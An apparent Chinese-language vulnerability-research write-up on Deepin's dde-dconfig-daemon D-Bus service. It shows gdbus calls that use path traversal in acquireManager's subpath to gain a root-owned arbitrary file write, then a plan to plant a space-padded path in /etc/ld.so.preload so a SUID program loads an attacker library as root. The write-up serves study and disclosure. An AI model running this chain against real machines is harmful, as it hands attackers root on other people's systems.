




继续学习漏洞挖掘思路

## dde-config

### 信息收集

从dbus定位到`/usr/bin/dde-dconfig-daemon`这个文件以root运行

之后strings查看这个文件的字符串，在dbus附近看到服务

```
org.desktopspec.ConfigManager
```

服务在路径`/usr/share/dbus-1/system.d/org.desktopspec.ConfigManager.conf`下

和上一个文件一样，允许任意用户调用

```
<policy context="default">
    <allow send_destination="org.desktopspec.ConfigManager"/>
</policy>
```

通过busctl查看方法



此时，AI在刚才的strings的一大段里直接找到了xml关于方法的定义



这也确实是一种方法

其中，`acquireManager`这个方法，里面接受三个字符串

- 包括一个子路径参数，叫做`subpath`
- 返回一个对象路径`type=o`，后续操作需要在这个对象上进行
-  还有`setValue`参数，可以写值

### 构造尝试

- 尝试手动调用dbus方法，看传入目录是否能够修改上层的目录

```
gdbus call --system \
  --dest org.desktopspec.ConfigManager \
  --object-path / \
  --method org.desktopspec.ConfigManager.acquireManager \
  "dconfig-example" "test" ""
```



虽然报错了，但是实际上，程序尝试加载了某个东西，name参数前加了一个 `/`

之后就尝试`../`等的路径穿越

最终得到拼接路径：

```
"/" + name + subpath
```

这个路径之后去目录下搜索，而且读取文件基址目录为`/usr/share/dsg/configs/`

- 通过strace跟踪系统调用，观察sync写入的文件路径（linux猜测功能为写入硬盘）

```
strace -f -e trace=file /usr/bin/dde-dconfig-daemon 2>&1 | grep -E "open|mkdir|write"
```

读取写入路径为`/home/zhang/.config/dsg/configs/`

```
# 先 acquireManager 获得连接对象路径（假设返回 /dconfig_example/evil）
gdbus call --system \
  --dest org.desktopspec.ConfigManager \
  --object-path / \
  --method org.desktopspec.ConfigManager.acquireManager \
  "dconfig-example" "evil" "/../../../../tmp/metadir"
```

会返回一个路径，意思是程序连接了配置对象

```
gdbus call --system \
  --dest org.desktopspec.ConfigManager \
  --object-path /dconfig_example/evil/... \
  --method org.desktopspec.ConfigManager.sync \
  ""
```

会把配置对象的内容强制写入硬盘

整体的思路就是：

```
acquireManager拿到对象路径 - setValue写入测试值 - sync强制保存
```

能够写出一个文件，并且属主是root，说明可以控制root向任意目录写文件

**哑目录**

执行刚才的第二步强制写入的时候，会出现失败的情况

假如传入：`/usr/share/dsg/configs/abc/`，如果abc不存在，则会去上一个路径下`/usr/share/dsg/configs/`找，会导致传回的路径深度对不上

因此，找到了现有的`/usr/share/dsg/configs/org.deepin.compressor/`去读取，这个文件不需要提供实际的功能，充当一个锚点的作用

### 从任意写到触发执行

选择了`/etc/ld.so.preload`

- 系统任意新启动的动态链接程序，都会先读`/etc/ld.so.preload`
- 其中的路径会被ld.so以root预加载

需要写入的内容：`.so`文件的绝对路径，`.so`文件中以**root复制/bin/bash**

因此，如果在这个路径中写入一个`.so`路径，触发一个suid程序，就会任意root执行代码

`/etc/ld.so.preload`按照空白分割读取字符串，而我们写入的只是json，通过构造：

```
"value": " /tmp/evil.so ",
```

首尾加一个空格，就能被拆分出：` /tmp/evil.so`

**结果**




